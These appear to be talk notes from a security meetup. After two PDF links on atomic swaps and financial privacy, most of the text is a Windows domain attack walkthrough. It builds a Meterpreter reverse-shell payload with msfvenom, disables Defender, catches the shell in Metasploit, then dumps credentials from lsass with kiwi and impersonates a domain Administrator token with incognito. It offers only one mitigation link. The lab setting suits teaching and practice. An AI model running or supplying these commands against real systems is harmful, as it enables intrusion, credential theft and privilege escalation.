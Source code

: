 
@warelock talk

[Atomic Swaps](../../../assets/Atomic_swaps.pdf)

[Financial Privacy is Liberty Handout](../../../assets/Financial_Privacy_is_Liberty_Handout.pdf)


@BarrySploit talk

Run the following on windows client and domain controller
Enable-PSRemoting

disable defender 

`msfvenom -p windows/meterpreter/reverse_tcp -f exe --out null.exe LHOST=192.168.56.101 LPORT=4444`

copy file over to windows client

msfconsole

search exploit/multi/handler
use 4

set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
exploit

now run null.exe

kali should have reverse shell via meterpreter on kali

On DC run, `new-PSSession -ComputerName <windows client hostname>`

`Enter-PSSession -computername <windows client hostname>`

back on kali in meterpreter

`use kiwi`
`getsystem`
`migrate -N lsass.exe`
`creds_all`  - get hashes and passwords
`use incognito`
`list_tokens -u` 
`list_tokens -g`
`impersonate_token PIZZATUT\Administrator`
`getuid`
`shell`

protect against this, follow https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/enable-computer-and-user-accounts-to-be-trusted-for-delegation

get hashes, rdp to host. This will cache creds

`rev2self`
`getuid`
`creds_all`